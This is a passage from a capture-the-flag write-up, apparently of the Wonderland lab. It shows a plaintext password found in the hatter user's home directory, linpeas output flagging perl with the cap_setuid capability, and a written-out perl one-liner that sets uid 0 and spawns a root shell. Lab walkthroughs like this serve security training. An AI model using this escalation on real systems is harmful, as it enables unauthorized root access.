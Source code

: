 ![](images/2020-08-24-23-51-19.png)

and we have a shell as hatter!

Navigating into the hatter home directory we find a password.txt file.

Contents:
![](images/2020-08-24-23-51-56.png)
WhyIsARavenLikeAWritingDesk?

Which is the password for hatter for ssh.

Running linpeas, we find this:]

    [i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities
    /usr/bin/perl5.26.1 = cap_setuid+ep
    /usr/bin/mtr-packet = cap_net_raw+ep
    /usr/bin/perl = cap_setuid+ep

https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/

getcap -r / 2>/dev/null
pwd
ls -al perl
perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
id
